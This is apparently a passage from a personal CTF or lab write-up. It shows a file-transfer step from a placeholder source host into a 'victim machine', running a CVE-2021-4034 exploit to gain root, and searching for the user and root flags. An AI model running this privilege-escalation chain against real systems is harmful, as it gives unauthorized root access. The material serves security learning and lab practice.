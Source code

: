 And transfer to the victim machine

<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



## Transfer files
Using **Python**, in the folder that contain the file to send **on the source machine.** E.g. `file.txt` #flashcard
```python
python -m http.server 4545
```


On the destination machine
```shell
wget http://IP_SOURCE_MACHINE:4545/file.txt
```

</div></div>


Run the exploit
```shell
python3 CVE-2021-4034.py
```


</div></div>

We are root
![Pasted image 20240926170025.png|400](/img/user/attachments/Pasted%20image%2020240926170025.png)

Searching the user flag
```shell
find / -type f -iname user.txt
```
![Pasted image 20240926171656.png|400](/img/user/attachments/Pasted%20image%2020240926171656.png)

And finally  the root flag
Searching the user flag
```shell
find / -type f -iname root.txt
```
![Pasted image 20240926171935.png|400](/img/user/attachments/Pasted%20image%2020240926171935.png)


---
